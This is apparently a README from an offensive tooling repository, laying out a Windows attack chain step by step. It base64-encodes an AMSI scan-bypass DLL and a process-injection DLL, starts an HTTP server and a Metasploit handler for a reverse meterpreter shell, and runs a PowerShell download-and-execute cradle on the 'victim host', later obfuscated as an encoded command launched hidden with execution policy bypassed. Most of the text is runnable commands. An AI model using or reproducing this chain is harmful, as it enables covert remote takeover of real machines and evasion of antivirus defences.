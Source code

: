 ## 1. Base64 encode ASBBypass
Base64 encode the ASBBypass binary and insert output into "s2.ps1"
```
PS > Import-Module .\b64_encode.ps1
PS > toBase64 X:\AmsiScanBufferBypass\ASBBypass\bin\Debug\ASBBypass.dll
<SNIPPED_FOR_BREVITY>
```

## 2. Base64 encode Rem_proc_inj
Base64 encode the Rem_proc_inj binary and insert output into "s3.ps1".
```
PS > toBase64 C:\Users\vbox\source\repos\Rem_proc_inj\Rem_proc_inj\bin\Debug\Rem_proc_inj.dll
<SNIPPED_FOR_BREVITY>
```

## 3. Setup listeners
Change the hosts and ports in scripts "s1.ps1" and "s2.ps1".

### Setup HTTP listener on attacking host
```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

### Setup MSF or any other payload listener on attacking host
```
$ msfconsole -n -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.252.5; set lport 6666; run -j"
```

## 4. Run initial loader script on victim host

### Powershell command on victim host
```
iex(new-object net.webclient).downloadString('http://192.168.252.5/s1.ps1')

```

### Optionally convert to Base64 LE on attacking host
```
$ echo -n "iex(new-object net.webclient).downloadString('http://192.168.252.5/s1.ps1')" > /tmp/payl.txt
$ iconv -f ASCII -t UTF-16LE /tmp/payl.txt | base64 | tr -d "\n"
aQBlAHgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyADUAMgAuADUALwBzADEALgBwAHMAMQAnACkA
```

### Final Powershell command to execute on victim host
```
PS > powershell.exe -ep bypass -nol -noni -w hidden -nop -e aQBlAHgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyADUAMgAuADUALwBzADEALgBwAHMAMQAnACkA
```

